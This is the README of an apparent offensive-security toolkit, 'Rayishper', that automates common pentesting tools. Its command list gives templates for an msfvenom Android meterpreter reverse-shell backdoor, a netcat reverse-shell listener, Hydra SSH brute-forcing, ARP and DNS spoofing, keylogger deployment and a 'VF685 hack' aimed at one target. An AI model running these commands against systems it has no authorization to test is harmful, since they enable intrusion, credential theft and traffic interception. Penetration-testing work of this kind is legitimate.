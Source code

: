 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

## Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
cd rayishper

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit-Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John-the-Ripper: For password cracking.
Social-Engineering-Toolkit-(SET): For social engineering attacks.

## Usage
## To run Rayishper:
./rayishper.py

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.
